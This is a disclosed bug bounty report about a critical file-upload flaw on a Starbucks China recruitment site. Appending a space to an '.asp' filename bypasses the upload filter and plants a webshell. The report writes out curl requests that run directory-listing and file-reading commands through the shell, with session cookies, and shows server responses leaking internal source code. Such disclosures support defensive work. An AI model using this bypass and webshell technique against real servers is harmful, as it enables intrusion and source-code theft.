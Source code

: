 # Webshell via File Upload on ecjobs.starbucks.com.cn

## Report Details
- **Report ID**: 506646
- **URL**: https://hackerone.com/reports/506646
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-03-08T06:45:11.342Z
- **Disclosed**: 2019-11-13T00:38:41.593Z

## Reporter
- **Username**: johnstone
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
**Summary:** 
OS Command Injection which can let the attacker who get more important information of the server,such as disclosures internal source code of the webapp,database data and invade the internal network.

**Description:** 
I found that users can upload asp/aspx and other dynamic files via the avatar upload function when adding a space character behind the file type to bypass the upload file limit.The attacker can run malicious cmd on the server.

## Steps To Reproduce:

  1. Sign in the url(https://ecjobs.starbucks.com.cn) and direct to the resume endpoint.
  2. Use burp suite tools to interupt the avatar upload request.
  3. Replace the filename type ```.jpg``` to ```asp ```which have a space character behind and modify the content

  After that you have uploaded malicious files on the server and run any os command on server you wanted.
Do some command like list all files on the server

```
curl -i -s -k  -X $'GET' \
    -H $'Host: ecjobs.starbucks.com.cn' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Cookie: _ga=GA1.3.779308870.1546486037; ASP.NET_SessionId=w2dbbzgyv3cu0hiiwkysnooo; ASPSESSIONIDSSSBQTQR=FKJDKLGAKJKDALIKOJMJBLAF; ASPSESSIONIDSQRDSRRR=DLNDLPJANKNIAGPMFDEGFLIF' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'_ga=GA1.3.779308870.1546486037; ASP.NET_SessionId=w2dbbzgyv3cu0hiiwkysnooo; ASPSESSIONIDSSSBQTQR=FKJDKLGAKJKDALIKOJMJBLAF; ASPSESSIONIDSQRDSRRR=DLNDLPJANKNIAGPMFDEGFLIF' \
    $'https://ecjobs.starbucks.com.cn/recruitjob/tempfiles/temp_uploaded_739175df-5949-4bba-9945-1c1720e8e109.asp?getsc=dir%20d:\\TrustHX\\STBKSERM101\\www_app%20%2fd%2fs%2fb'
```

**The response content:**

```
HTTP/1.1 200 OK
Date: Fri, 08 Mar 2019 02:56:19 GMT
Server: wswaf/2.13.0-5.el6
Content-Type: text/html
Cache-Control: private
X-Powered-By: ASP.NET
X-Via: 1.1 jszjsx51:1 (Cdn Cache Server V2.0), 1.1 PSjxncdx5rt58:6 (Cdn Cache Server V2.0)
Connection: close
Content-Length: 1814533

<html>
<body>
<h1>POC by hackerone_john stone</h1>
<textarea readonly cols=80 rows=25>
d:\TrustHX\STBKSERM101\www_app\bin
d:\TrustHX\STBKSERM101\www_app\common
d:\TrustHX\STBKSERM101\www_app\concurrent_test
d:\TrustHX\STBKSERM101\www_app\Default.aspx
d:\TrustHX\STBKSERM101\www_app\Global.asax
d:\TrustHX\STBKSERM101\www_app\hximages_v6
....................................
</textarea>
</body>
</html>
```

**Show the internal source code**
```
curl -i -s -k  -X $'GET' \
    -H $'Host: ecjobs.starbucks.com.cn' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Cookie: _ga=GA1.3.779308870.1546486037; ASP.NET_SessionId=w2dbbzgyv3cu0hiiwkysnooo; ASPSESSIONIDSSSBQTQR=FKJDKLGAKJKDALIKOJMJBLAF; ASPSESSIONIDSQRDSRRR=DLNDLPJANKNIAGPMFDEGFLIF' -H $'Upgrade-Insecure-Requests: 1' \
    -b $'_ga=GA1.3.779308870.1546486037; ASP.NET_SessionId=w2dbbzgyv3cu0hiiwkysnooo; ASPSESSIONIDSSSBQTQR=FKJDKLGAKJKDALIKOJMJBLAF; ASPSESSIONIDSQRDSRRR=DLNDLPJANKNIAGPMFDEGFLIF' \
    $'https://ecjobs.starbucks.com.cn/recruitjob/tempfiles/temp_uploaded_739175df-5949-4bba-9945-1c1720e8e109.asp?getsc=type%20d:\\TrustHX\\STBKSERM101\\www_app\\concurrent_test\\new_application_concurrent_test__svc.cs'
```
the source code respones:
```
HTTP/1.1 200 OK
Date: Fri, 08 Mar 2019 03:37:39 GMT
Server: wswaf/2.13.0-5.el6
Content-Type: text/html
Cache-Control: private
X-Powered-By: ASP.NET
X-Via: 1.1 jszjsx51:0 (Cdn Cache Server V2.0), 1.1 ydx154:3 (Cdn Cache Server V2.0)
Connection: close
Content-Length: 33316

<html>
<body>
<h1>POC by hackerone_john stone</h1>
<textarea readonly cols=80 rows=25>
ï»¿using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Data;
using System.Drawing;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System;
using System.Collections.Specialized;
using System.Collections.Generic;
using System.Data;
using System.Configuration;
using System.Xml;
using System.Transactions;
using System.Text;
using System.Threading;
using System.Web;

using TrustHX.IHXEIMS6;
using hxsys = TrustHX.HXEIMS6;
using hxwww = TrustHX.HXWWW6;
using hxsm = TrustHX.HXSM6;
using hxmd = TrustHX.HXMD6;


class new_application_concurrent_test : IHXPageXmlService
{
    #region IHXPageXmlService æå
    string IHXPageXmlService.Run(string strSystemCode, string strPageXmlServiceCode, string strPageXmlServiceContent, string strHXPageParamUUID, string strHXPageName)
    {
        try
        {
            switch (strPageXmlServiceCode)
            {
                case "PREPARE_CONCURRENT_DATA":return ConcurrentDataPrepare.ConcurrentDataPrepareProcess(strSystemCode, strPageXmlServiceContent);
                case "CONCURRENT_TEST":return ConcurrentTest.ConcurrentTestProcess(strSystemCode, strPageXmlServiceContent);
                default:
                    string strErrorMessageText =
....................................
</textarea>
</body>
</html>
```

## Recommendations for fix

*Strictly limit file upload types
*Only allow jpg/png/gif/jpeg file parsing on the uploaded fiels
*More safe code design

Thks!Looking forward to your reply.
With kind regards
John stone

## Impact

disclosures  the internal source code data and user's information,broken ring server,etc.

## Attachments
- intenal_source_code.png
- OS_CMD.png
